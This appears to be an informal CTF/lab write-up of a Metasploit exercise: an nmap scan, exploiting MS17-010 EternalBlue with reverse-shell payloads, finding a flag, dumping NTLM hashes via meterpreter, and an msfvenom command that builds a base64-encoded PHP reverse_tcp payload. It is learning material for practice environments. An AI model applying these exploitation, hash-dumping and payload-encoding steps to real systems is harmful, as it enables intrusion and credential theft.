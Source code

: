 1) Exploit one of the critical vulnerabilities on the target VM
--> `nmap -sC -sV -p- -T4 — min-rate=9326 -vv [MACHINE IP]`
- This command will give us a port open and most critical vuln --> ms17_010

2) How to find flag.txt?
-->  After fining the exlpoit , we will use ` use exploit:windows/smb/ms17_010_eternalblue `with this payload `set payload:generic/shell_reverse_tcp`.
- Then we will set the options as required, and then roam around in the folder, u will get the required flag in --> Jon’s folder

3) What is the NTLM hash of the password of the user “pirate”?
--> After doing the steps for the above Q , do the follwing :
- After this , i then realized , i cant use the hashdump if im not in meterpreter

### Why hashdump?
--> Hash dumping is the process of extracting password hashes from a compromised system's memory or storage. A hash is a one-way cryptographic function, so you can't get the original password from it, but you can use the hash itself for further attacks.

### What is Meterpreter?
--> Meterpreter is an advanced, in-memory payload that gives you much more control over a compromised machine than a standard command shell. Think of a shell session as a basic terminal: you can type commands like dir and whoami, but that's about it.

Meterpreter, on the other hand, is a powerful "Swiss Army knife" that runs entirely in the target's memory. It avoids writing files to disk, which makes it much harder for antivirus and forensic tools to detect

- OK SO GETTING BACK TO STEPS,
- I reverted back and this type in `  use exploit:windows/smb/ms17_010_eternalblue `, i found out the paload with meterpreter and reverse_TCP
- Then did the same as before , run and finally i got acccess as meterpreter 
- Then i wrote the command -> ` hashdump` in meterpreter
- FINALLY COMPETED THIS TASK [ Took an hr ]



# MSFVENOM
# ---------

- Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.
- Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

## Encoders

- They do not fully protect u from antivirus, but it just encodes ur payload .
-  The example below shows the usage of encoding (with the -e parameter. The PHP version of Meterpreter was encoded in Base64, and the output format was raw.
    - msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64
